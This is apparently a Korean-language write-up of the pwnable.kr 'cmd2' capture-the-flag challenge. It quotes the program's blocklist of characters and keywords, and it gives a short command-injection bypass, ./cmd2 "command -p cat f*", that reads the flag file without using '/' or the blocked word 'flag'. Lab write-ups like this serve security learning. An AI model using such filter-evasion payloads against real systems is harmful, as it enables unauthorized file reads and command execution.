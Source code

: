 # Cmd2 Problem      
     
### Problem URL: <https://pwnable.kr/play.php> <br> 
### [Level: Toddler's Bottle]       

<hr/> 

```    
Mommy! what is PATH environment in Linux?

ssh cmd2@pwnable.kr -p2222 (pw:mommy now I get what PATH environment is for :) [= cmd1 flag])   
```   

우선 어떤 파일이 존재하는지 확인해보면, 아래 사진과 같이 파일들이 구성됨을 알 수 있다.    

<img src="./image/1.png"/>
    
다음 소스코드를 확인해보자.   
    
<img src="./image/2.png"/>   
    
이 또한 Cmd1 문제와 동일하게, System() 함수를 통해 cat flag를 실행시켜 Flag를 획득하는 방식임을 알 수 있다.   
단, Cmd2는 Cmd1 문제와 달리 아래와 같이 필터 항목들이 늘어난 것을 볼 수 있다.    
    
```   
r += strstr(cmd, "=")!=0;
r += strstr(cmd, "PATH")!=0;
r += strstr(cmd, "export")!=0;
r += strstr(cmd, "/")!=0;
r += strstr(cmd, "`")!=0;
r += strstr(cmd, "flag")!=0;    
```   
   
그리하여, /bin/cat 과 같은 명령을 실행할 수가 없다. 그리하여, Cmd1 에서와 동일하게 환경변수를 활용하여   
시도해보았지만, 이 문제를 해결할 수 없었다.    
    
### PATH Environment 
    
<img src="./image/3.png"/>  

또한, 앞에서 다루었던 Shell Shock 방식을 통해서도 풀 수 없었다.    
   
### SHELL SHOCK   
   
<img src="./image/4.png"/>   
    
그리하여, "/" 를 사용하지 않고 cat 명령을 실행하는 방법을 찾았다.    
command 명령에 옵션 <strong>p</strong>를 사용한다면, 이를 우회할 수 있게 된다는 것이다.   
     
```    
cmd2@pwnable:~$ help command
command: command [-pVv] command [arg ...]
    Execute a simple command or display information about commands.
    
    Runs COMMAND with ARGS suppressing  shell function lookup, or display
    information about the specified COMMANDs.  Can be used to invoke commands
    on disk when a function with the same name exists.
    
    Options:
      -p	use a default value for PATH that is guaranteed to find all of
    	the standard utilities
      -v	print a description of COMMAND similar to the `type' builtin
      -V	print a more verbose description of each COMMAND
    
    Exit Status:
    Returns exit status of COMMAND, or failure if COMMAND is not found.
```   
  
그리하여, 아래와 같이 이를 입력해주면, 문제가 해결됨을 알 수 있다.    
   
```   
./cmd2 "command -p cat f*" 
```   
   
<img src="./image/5.png"/>   
    
  
    

